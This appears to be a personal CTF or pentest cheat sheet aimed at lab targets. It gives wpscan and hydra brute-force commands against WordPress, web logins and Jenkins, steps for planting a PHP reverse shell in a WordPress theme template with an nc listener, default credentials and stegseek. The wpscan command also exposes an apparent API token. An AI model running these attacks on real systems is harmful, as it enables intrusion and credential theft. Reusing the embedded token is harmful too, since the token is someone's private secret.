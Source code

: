 - will give huge output if older wp version, scroll to bottom to check for vulnerable plugins
```
wpscan --url http://192.168.109.112:81/ --api-token xLbPu8UpTv2bEWHfDPm8XaQNgO08WsDYjaqJH9bdaQM --usernames /usr/share/nmap/nselib/data/usernames.lst --passwords /usr/share/wordlists/rockyou.txt
```
- bruteforce usernames and passwords (have not successfully used)
#### Once in WP Admin
- go to appearance > theme editor > 404 Template
- put in rev shell from https://github.com/pentestmonkey/php-reverse-shell on revshells.com as PHP PentestMonkey 
	- also try  other PHP shells
- update file
- start `nc -lvnp 6969`
- go to http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php
	- so copy "wp-content/themes/twentyseventeen/404.php" to url
		- find theme name on theme-editor URL
			- ex: &theme=90s-retro
#### Bruteforce Login page
```
hydra 10.129.222.16 -l dank -P /usr/share/seclists/Passwords/twitter-banned.txt https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password"
```
- must include username `-l dank` even if not using on login
- can also use rockyou
- if targeting port 80 instead of 443, make sure to change `https-post-form` to `http-post-form` and syntax to:
```
hydra -L users.txt -P rockyou_ninja http-post-form://127.0.0.1:9001/index.php:"username=^USER^&password=^PASS^&login=:Login Restricted."
```
- use burp to get data for quotes at the end. 3 pieces of data between `:` includes:
	- relative subdirectory of login page
	- burp query
	- burp response or page response that indicates login failed
 - if seeing a bunch of tries and (0/0) in output, means command is wrong

#### Images
if png, run `strings`
if jpg, try `strings` or bruteforce with stegseek
```
stegseek image.jpg /usr/share/wordlists/rockyou.txt
```

### Jenkins
default creds
- admin:password

bruteforce with hydra
```
hydra 127.0.0.1 -s 1337 -V -f http-form-post "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in&Login=Login:Invalid username or password" -l admin -P /usr/share/wordlists/rockyou.txt
```
